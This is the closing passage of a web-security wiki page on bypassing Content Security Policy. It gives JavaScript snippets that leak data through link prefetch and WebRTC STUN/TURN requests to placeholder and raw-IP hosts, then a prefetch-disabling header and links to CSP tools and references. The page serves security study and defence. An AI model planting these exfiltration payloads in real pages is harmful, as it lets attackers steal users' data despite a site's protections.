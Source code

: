 ```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

In order to avoid this from happening the server can send the HTTP header:

```
X-DNS-Prefetch-Control: off
```

{% hint style="info" %}
Apparently, this technique doesn't work in headless browsers (bots)
{% endhint %}

### WebRTC

On several pages you can read that **WebRTC doesn't check the `connect-src` policy** of the CSP.

Actually you can _leak_ informations using a _DNS request_. Check out this code:

```javascript
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```

Another option:

```javascript
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```

## Checking CSP Policies Online

* [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com)
* [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

## Automatically creating CSP

[https://csper.io/docs/generating-content-security-policy](https://csper.io/docs/generating-content-security-policy)

## References

* [https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/](https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/)
* [https://lcamtuf.coredump.cx/postxss/](https://lcamtuf.coredump.cx/postxss/)
* [https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
* [https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme](https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme)
* [https://www.youtube.com/watch?v=MCyPuOWs3dg](https://www.youtube.com/watch?v=MCyPuOWs3dg)
* [https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/)
* [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)
